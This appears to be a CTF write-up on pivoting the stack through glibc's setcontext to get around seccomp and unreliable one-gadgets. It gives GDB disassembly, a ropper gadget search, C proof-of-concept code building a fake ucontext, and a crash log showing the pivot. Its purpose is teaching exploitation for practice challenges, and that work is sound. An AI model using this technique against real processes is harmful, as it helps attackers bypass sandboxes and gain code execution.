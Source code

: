 # Stack pivoting with setcontext

Usually in CTF challenges we have at our disposal a so named _one gadget_ or _magic gadget_ which allows directlly executing `execve("/bin/sh", 0, 0)` by simply controlling the **RIP**. Sometimes this approach is not reliable by a couple of reasons:

- the constraints for _one gadget_ are not satisfied
- the process is sandboxed using **seccomp** and `execve()` is not allowed

To overcome the situation we can try to pivot the stack to a different location (usually the heap) leveraging a classic ROP chain attack. We'll use `setcontext` to conduct our attack.

PoC source code [here](https://github.com/JustBeYou/ctfs/blob/master/writeups/setcontext_trick.c).

## Preconditions

- GNU/Linux environment with glibc
- Known address to a contigous (writable) region of memory
- Known base of **libc**
- A way to take control of **RIP** and **RDI**

Instead of writing an actual challenge to exploit, we'll focus on implementing the attack directly in C using a single program. Here are the details of my environment, you'll have to change the offsets according to your own:

```c
/**
 * System
 *  Fedora release 31 (Thirty One)
 *  GNU/Linux 5.6.13-200.fc31.x86_64
 *  ldd (GNU libc) 2.30
 *
 * Compile
 *  gcc setcontext_trick.c -g -o setcontext_trick
 */
```

## Overview of setcontext

`setcontext` is a function from libc used to switch (user-level) contexts between threads. You can read more about it on its [man page](https://linux.die.net/man/2/setcontext). The most interesting thing about it is that a context contains a complete copy of machine's registers including **RSP**, so by calling `setcontext` with a well-crafted structure, we can pivot the stack to an arbitrary location.

We have to dig inside `struct ucontext` so we'll know which filed controls the stack pointer.

```c
typedef struct ucontext {
    struct ucontext *uc_link;
    sigset_t         uc_sigmask;
    stack_t          uc_stack;
    mcontext_t       uc_mcontext;
    ...
} ucontext_t;
```

`mcontext_t uc_mcontext` ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#ucontext_t)) field stores the machine state which contains the saved registers.

```c
typedef struct
  {
    gregset_t __ctx(gregs);
    /* Note that fpregs is a pointer.  */
    fpregset_t __ctx(fpregs);
    __extension__ unsigned long long __reserved1 [8];
} mcontext_t;
```

General purpose registers are stored in `gregs` and they have the following order ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#gregset_t)):

```c
typedef greg_t gregset_t[__NGREG];
#ifdef __USE_GNU
/* Number of each register in the `gregset_t' array.  */
enum
{
  REG_R8 = 0,
# define REG_R8                REG_R8
  REG_R9,
# define REG_R9                REG_R9

...

# define REG_RSP        REG_RSP // 15th index

...
```

In conclusion, our target is `ucontext_t.uc_mcontext.gregs[REG_RSP]`, where `REG_RSP = 15`.

## Problems with the naive approach

Now, we could try to simply call `setcontext` with a fake structure and take control of **RSP** but this would raise two major problems:

- `setcontext` is using the system call `sigprocmask` and it's very probable to be blocked by `seccomp`
- `setcontext` is reloading FPU x87 environment using `fldenv` so we would need to craft a valid structure for it too

```c
// Naive approach
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = 0xcafebabe;

setcontext(ucp);
```

By digging into the [source code](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#__setcontext) of `setcontext` we can find a way to overcome the limitations of this approach.

Lines [47](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#47) and [59](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#59) cause the above mentioned problems. To avoid them, we could jump just after line 60, directly executing the part that reloads general purpose registers. We can find the corresponding offset in the binary by using GDB:

```
(gdb) x/10i setcontext+0x3d
   0x7ffff7e202cd <setcontext+61>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x7ffff7e202d4 <setcontext+68>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x7ffff7e202db <setcontext+75>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x7ffff7e202df <setcontext+79>:	mov    r12,QWORD PTR [rdx+0x48]
   0x7ffff7e202e3 <setcontext+83>:	mov    r13,QWORD PTR [rdx+0x50]
   0x7ffff7e202e7 <setcontext+87>:	mov    r14,QWORD PTR [rdx+0x58]
   0x7ffff7e202eb <setcontext+91>:	mov    r15,QWORD PTR [rdx+0x60]
   0x7ffff7e202ef <setcontext+95>:	test   DWORD PTR fs:0x48,0x2
   0x7ffff7e202fb <setcontext+107>:	je     0x7ffff7e203b6 <setcontext+294>
   0x7ffff7e20301 <setcontext+113>:	mov    rsi,QWORD PTR [rdx+0x3a8]
```

Unfortunately, another problem arises: the structure was previously loaded into **RDX** and we have control only over **RDI**.

## Controlling RDX

As we already know libc's base we have plenty of gadgets to work with. In this case, we need a gadget that allows setting **RDX** by using **RDI** and then calling a function by a controlled pointer. Using `ropper` and some `grep` trickery, we find just the right thing:

```bash
$ ropper -f /lib64/libc.so.6 --nocolor | grep -E "mov rdx, .*rdi" | grep -E "(call|jmp) qword ptr \[rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000012ff3c: add byte ptr [rax], al; add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff3e: add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff40: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
```

The gadget at `0x12ff40` is perfect for our use case.

```asm
# rdi should be our controlled buffer
mov rdx, qword ptr [rdi + 8]; # load a controlled value into rdx
mov qword ptr [rsp], rax;
call qword ptr [rdx + 0x20];  # call using a controlled pointer
```

## Crafting the final payload

Using the knowledge we gained above, we can write our proof of concept exploit:

1. Leak and call primitives

```c
size_t leak_libc() {
    return (size_t)stdout - 0x1c3500;
}

void call(void* p, size_t arg) {
    void (*func_ptr)(size_t) = p;
    func_ptr(arg);
}
```

2. Alloc a fake stack and prepare gadgets' addresses

```c
size_t* fake_stack = malloc(0x200);
for (int i = 0; i < 10; i++) fake_stack[i] = 0xdeadbeef;

size_t setcontext_addr = leak_libc() + 0x4c290;
void* load_rdx = (void*)(leak_libc() + 0x12ff40);
```

3. Create the fake context structure and load it

```c
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = (size_t)fake_stack; // new stack

size_t* raw_ucp = (size_t*)ucp;
raw_ucp[1] = (size_t)ucp; // [rdi+0x8]  = &ucp => rdx = &ucp
raw_ucp[4] = setcontext_addr + 0x3d;   // [rdx+0x20] = setcontext+0x3d

call(load_rdx, (size_t)ucp);
```

Profit!

```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00000000004052a0  →  0x00000000deadbeef
$rbp   : 0x0
$rsi   : 0x0
$rdi   : 0x0
$rip   : 0x0
$r8    : 0x0
$r9    : 0x0
$r10   : 0x3d0
$r11   : 0x00007ffff7f96a40  →  0x0000000000405870  →  0x0000000000000000
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────── stack ────
0x00000000004052a0│+0x0000: 0x00000000deadbeef   ← $rsp
0x00000000004052a8│+0x0008: 0x00000000deadbeef
0x00000000004052b0│+0x0010: 0x00000000deadbeef
0x00000000004052b8│+0x0018: 0x00000000deadbeef
0x00000000004052c0│+0x0020: 0x00000000deadbeef
0x00000000004052c8│+0x0028: 0x00000000deadbeef
0x00000000004052d0│+0x0030: 0x00000000deadbeef
0x00000000004052d8│+0x0038: 0x00000000deadbeef
────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x0
─────────────────── threads ────
[#0] Id 1, Name: "setcontext_tric", stopped 0x0 in ?? (), reason: SIGSEGV
```

Complete source code of PoC [here](https://github.com/JustBeYou/ctfs/blob/master/writeups/setcontext_trick.c).

## Conclusions

We can use this tehnique in a variety of challenges where getting a ROP chain seems impossible, especially in heap challenges where pivoting using a classic `retn` instruction is not an option and `seccomp` does not allow us to execute the _magic gadget_.
